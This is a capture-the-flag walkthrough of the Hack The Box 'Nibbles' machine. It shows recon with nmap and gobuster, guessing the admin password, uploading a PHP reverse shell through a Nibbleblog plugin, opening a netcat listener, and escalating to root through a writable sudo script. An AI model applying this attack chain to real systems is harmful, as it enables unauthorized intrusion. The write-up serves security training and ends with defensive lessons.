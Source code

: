 # Nibbles Writeup w/o Metasploit

![](../images/max/570/1*2VjSh0oCcyX65RPaFHhtrg.png)

## Reconnaissance <a id="38e3"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA htb/nibbles/nmap/initial 10.10.10.75
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that two ports are open:

* **Port 80:** running Apache httpd 2.4.18
* **Port 22**: running OpenSSH 7.2p2

![](../images/max/937/1*7oP4YyrV76UDbNOq2ToxSg.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA htb/nibbles/nmap/full 10.10.10.75
```

We get back the following result. No other ports are open.

![](../images/max/941/1*SRhDq1EETKpOoWKYYRxIOw.png)

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA htb/nibbles/nmap/udp 10.10.10.75
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So for this blog, I don’t have the UDP scan results.

## Enumeration <a id="a8fc"></a>

Visit the site in the browser.

![](../images/max/547/1*3FrcGEygHlOwyJbv1AuswQ.png)

Nothing useful there, so right click and select View Page Source. We find a comment that gives us a new directory.

![](../images/max/519/1*1-dNWnBc1dnTpx5kJniw-Q.png)

This leads us to the following page. You can see at the bottom that it is powered by Nibbleblog. This is an indication that it an off the shelf software as apposed to custom software.

![](../images/max/877/1*LxRNevTy-KZ_yg6vWGflvw.png)

To confirm that, let’s google Nibbleblog.

![](../images/max/807/1*UO3yRXkP0HipFv8npZRxYg.png)

It’s an open-source engine for creating blogs using PHP. This is good news for us for two reasons: \(1\) you can download the software and play with it offline. This way you can poke at it as much as you want without having to worry about detection, and \(2\) since it is open-source and used by other people, it probably has reported vulnerabilities. If this was custom software, we would have had to find zero day vulnerabilities.

In order to see if this application is vulnerable, we need to find its version number. To do that, let’s run Gobuster to enumerate directories.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.75/nibbleblog
```

We get back the following results.

![](../images/max/722/1*tGAlyo0Pvcf-QncC-VE0_w.png)

Navigate to the README page and there we find out that it is using version 4.0.3.

![](../images/max/537/1*EHgucHzzcceVLkf_-8VKCA.png)

Google the name of the software and version to see if it has any exploits.

![](../images/max/790/1*mpm3Gw2cn-8mbjMPLRxfxg.png)

A shell upload vulnerability, that’s what I like to see!

## Gaining an Initial Foothold <a id="1d2f"></a>

Navigate to the shell upload exploit [page](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html).

![](../images/max/654/1*1xbLN6TDATKP4gWtyd7t1A.png)

Several important pieces of information are mentioned in the page.

* It’s a code execution vulnerability.
* The vulnerability is in the “My image” plugin that allows the upload of PHP files. So it would allow us to upload a PHP reverse shell.
* It’s an authenticated vulnerability which means that we need admin credentials before we exploit this vulnerability.

Alright, so the next steps would be:

1. Navigate to the admin login page and figure out the admin credentials
2. Navigate to the My Image plugin page and upload a PHP reverse shell

As mentioned in the Proof of Concept, the admin page can be found here.

```text
http://10.10.10.75/nibbleblog/admin.php
```

Navigate to it.

![](../images/max/753/1*Z8SER-sJTBzlRRONNBgvZg.png)

Now we need admin credentials. When I’m presented with an enter credentials page, the first thing I try is common credentials \(admin/admin, admin/nibbles, nibbles/nibbles, nibbles/admin\). If that doesn’t work out, I look for default credentials online that are specific to the technology. Last, I use a password cracker if all else fails.

In this case, the common credentials admin/nibbles worked! Step \#1 is complete!

Next, we need to navigate to the My Image plugin. Click on Plugins &gt; My image &gt; Configure.

![](../images/max/754/1*sPkbF7c0jH5LYlM-lL_dQA.png)

Head over to [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and get the code for a PHP reverse shell. Change the IP address and port used by your attack machine. Then save it in a file called image.php and upload it on the site.

![](../images/max/769/1*c8cnf_SINB2LNmkqDRL_WA.png)

Start a listener on the above chosen port.

```text
nc -nlvp 1234
```

In the browser, navigate to the image we just uploaded to run the reverse shell script.

```text
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

We have a low privileged shell!

![](../images/max/720/1*lZL8xDkL_Mh-CW2kO7buJA.png)

Let’s first upgrade to a better shell. Python is not installed but python 3 is.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user flag.

![](../images/max/530/1*WmmNZ9MV9MeEVFKbEkGYEg.png)

Now we need to escalate privileges.

## Privilege Escalation <a id="cc00"></a>

Find out what privileges you have.

```text
sudo -l
```

![](../images/max/722/1*j20Aa5lZrmYgZSu9ffGncQ.png)

We can run the script monitor.sh in the above specified directory as root without having to enter a root password. Why is that good news for us? If we call a shell in that script, we can run it as root!

First, let’s see what the script contains.

```text
cat home/nibbler/personal/stuff/monitor.sh
```

![](../images/max/666/1*udPCq0mgasnrSF34S3jVyA.png)

It does not exist! We’ll have to create one.

```text
mkdir -p home/nibbler/personal/stuff
cd /home/nibbler/personal/stuff
vi monitor.sh
```

In the monitor.sh script add the following code.

```text
#!/bin/sh
bash
```

Give it execute privileges.

```text
chmod +x monitor.sh
```

Run the script with sudo.

```text
sudo ./monitor.sh
```

We are root!

![](../images/max/476/1*dpF0oqvXpZG8l1gMDzaRyw.png)

Grab the root flag.

![](../images/max/627/1*9ZfNdV8fbeS_ufYSsta6GQ.png)

## Lessons Learned <a id="0914"></a>

To gain an initial foothold on the target machine we had to perform two things: \(1\) guess the credentials of the administrator, and \(2\) exploit a vulnerability in the installed Nibbleblog version. The application was using weak authentication credentials, and so we were able to guess the admistrator credentials. The application was also using the vulnerable “My image” plugin which allowed us to run a reverse shell back to our attack machine. This shows the importance of enforcing the use of strong authentication credentials and patching your software. In this case, I’m not sure if a patch was even made available. The application also reached its end of life, so the recommendation would be to use other software to host your blog, or at the very least remove the “My image” plugin so that an attacker cannot exploit this specific vulnerability.

To escalate to root privileges, I used a security configuration that was clearly no longer needed by the user since the script is no longer there. This allowed me to run arbitrary commands with root privileges. The system admin should have conformed to the principle of least privilege and not given a regular user the ability to run a script with root privileges.

